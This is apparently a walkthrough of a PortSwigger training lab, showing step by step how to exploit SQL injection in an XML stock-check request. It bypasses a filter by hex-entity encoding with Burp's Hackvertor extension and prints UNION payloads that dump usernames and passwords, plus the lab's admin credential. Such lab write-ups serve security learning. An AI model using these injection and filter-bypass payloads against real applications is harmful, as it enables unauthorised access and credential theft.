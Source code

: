 # SQL injection with filter bypass via XML encoding

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

___
#xml

step 1

open lab go to any product 
click on check stock and intercept request through burpsuite
and send to repeater

![screnshot](./images/lab18_0.png)

step 2

send request you will get total units

![screnshot](./images/lab18_1.png)

step 3

add 1+1 in store section then send request
you will see changes in units

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1+1
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_2.png)

step 4

add `1 UNION SELECT NULL` in store section then send request
you will see changes in units
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1 UNION SELECT NULL
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_3.png)


step 5

use  hackvertor extension click on hex_entities
add `1 UNION SELECT NULL` in hex entities section then send request
you will see unit with null

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
		1 UNION SELECT NULL
		<@/hex_entities>
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_4.png)

step 6

add `1 UNION SELECT username || '~' || password FROM users` in hex entities section then send request
you will see account with password

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
		1 UNION SELECT username || '~' || password FROM users
		<@/hex_entities>
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_5.png)

step 7

To solve the lab use
`administrator~0swkp8f5wyqrafgemqjz`

![screnshot](./images/lab18_6.png)
